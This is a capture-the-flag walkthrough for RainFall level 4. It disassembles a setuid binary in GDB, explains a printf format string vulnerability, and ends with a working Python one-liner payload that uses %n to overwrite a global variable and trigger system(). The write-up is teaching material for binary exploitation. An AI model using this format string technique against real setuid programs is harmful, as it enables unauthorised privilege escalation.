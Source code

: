 ## Walkthrough

We list the files in the current home directory.

```nasm
level4@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level4 level4   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level4 level4  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level4 level4 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level5 users  5252 Mar  6  2016 level4
-rw-r--r--+ 1 level4 level4   65 Sep 23  2015 .pass
-rw-r--r--  1 level4 level4  675 Apr  3  2012 .profile

level4@RainFall:~$ file ./level4
./level4: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xf8cb2bdaa7daab1347b36aaf1c98d49529c605db, not stripped

```

The file is owned by **level5** and has the **setuid** bit.

We list the functions inside the executable and analyze their assembly code with **GDB**.

```nasm
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  printf
0x08048340  printf@plt
0x08048350  fgets
0x08048350  fgets@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  p
0x08048457  n
0x080484a7  main
0x080484c0  __libc_csu_init
0x08048530  __libc_csu_fini
0x08048532  __i686.get_pc_thunk.bx
0x08048540  __do_global_ctors_aux
0x0804856c  _fini
```

There are 3 interesting functions: `main()`, `p()` and `n()`.

```nasm
(gdb) disas main
Dump of assembler code for function main:
   0x080484a7 <+0>:	push   %ebp
   0x080484a8 <+1>:	mov    %esp,%ebp
   0x080484aa <+3>:	and    $0xfffffff0,%esp
   0x080484ad <+6>:	call   0x8048457 <n>
   0x080484b2 <+11>:	leave  
   0x080484b3 <+12>:	ret    
End of assembler dump.
```

The `main()` function only calls the `n()` function.

```nasm
(gdb) disas n
Dump of assembler code for function n:
   0x08048457 <+0>:	push   %ebp
   0x08048458 <+1>:	mov    %esp,%ebp
   0x0804845a <+3>:	sub    $0x218,%esp
   0x08048460 <+9>:	mov    0x8049804,%eax
   0x08048465 <+14>:	mov    %eax,0x8(%esp)
   0x08048469 <+18>:	movl   $0x200,0x4(%esp)
   0x08048471 <+26>:	lea    -0x208(%ebp),%eax
   0x08048477 <+32>:	mov    %eax,(%esp)
   0x0804847a <+35>:	call   0x8048350 <fgets@plt>
   0x0804847f <+40>:	lea    -0x208(%ebp),%eax
   0x08048485 <+46>:	mov    %eax,(%esp)
   0x08048488 <+49>:	call   0x8048444 <p>
   0x0804848d <+54>:	mov    0x8049810,%eax
   0x08048492 <+59>:	cmp    $0x1025544,%eax
   0x08048497 <+64>:	jne    0x80484a5 <n+78>
   0x08048499 <+66>:	movl   $0x8048590,(%esp)
   0x080484a0 <+73>:	call   0x8048360 <system@plt>
   0x080484a5 <+78>:	leave  
   0x080484a6 <+79>:	ret    
End of assembler dump.

```

The function:

- Calls `fgets()` to read input into a buffer located at `ebp - 0x208`
- Calls the function `p()`
- Retrieves the value of a global variable stored at memory address `0x8049810` into the `%eax` register
- Compares the value of `%eax` with`16930116` (`0x1025544`in hexadecimal)

```bash
**level4@RainFall:~$** gdb ./level4 
(gdb) b *0x08048455
Breakpoint 1 at 0x8048455
(gdb) r < /tmp/level4
(gdb) p *0x8049810
$1 = 16930116
```

- If the value is equal to `16930116` :
    - Calls the system’s shell `/bin/sh`  using the `system()` function. #TO FIX

The `p()` function:

```nasm
(gdb) disas p
Dump of assembler code for function p:
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x8(%ebp),%eax
   0x0804844d <+9>:	mov    %eax,(%esp)
   0x08048450 <+12>:	call   0x8048340 <printf@plt>
   0x08048455 <+17>:	leave  
   0x08048456 <+18>:	ret    
End of assembler dump.
```

This function:

- Calls `printf()` to print the buffer to stdout

### Format string vulnerability

Similar to the previous level, this function is vulnerable to a format string attack which occurs when a user input is improperly used as a format string in functions like `printf()`. This allows attackers to manipulate memory, access sensitive data, or execute arbitrary code.

Our goal is to overwrite the value of the global variable stored at the address `0x8049810`and replace it with the number `16930116`.

### Converting the address

The global variable (whose value is stored in the `%eax` register and compared to `16930116`) is located at the address `0x8049810`. To properly inject this address into the format string, we need to represent it in **little-endian** format, as this is how memory addresses are stored on the target system. The little-endian format for the address `0x8049810` is:  `\x10\x98\x04\x08` . 

**Little-endian** is a way of representing multi-byte data in memory where the **least significant byte** (the "lowest" byte) is stored at the **lowest memory address**, and the **most significant byte** is stored at the highest memory address.

### Overwriting the address

This level is similar to the previous one, except this time our offset (the number of characters between the start of our buffer and our target input) is larger. The number being compared is different, and there is a call to the function `p()`, meaning we have additional stack elements pushed (like `ebp`).

The `printf()` function includes the specifier `%n` which writes the number of characters printed so far into the address provided as its corresponding argument. This allows us to overwrite a specific memory address with the number of characters printed by the format string.

To achieve our goal, we need to craft a string such that the total number of characters printed is `16930116`. The `%n` specifier will then overwrite the global variable at `0x8049810` with the number `16930116` (the number of characters printed). Each `%x` will print a 4-byte value, each  `.`  is a 1-byte character and the `%16930040x` will print 16930040-bytes characters (filling with 0 or spaces). This gives us : 

```bash
'.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%16930040x.%n'
```

### Final command

Since `cat` is already called within the `system()` call, we do not need to explicitly invoke it ourselves for this level. The final command is : 

```bash
level4@RainFall:~$ python -c "print('\x10\x98\x04\x08' + '.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%16930040x.%n')" | ./level4
```
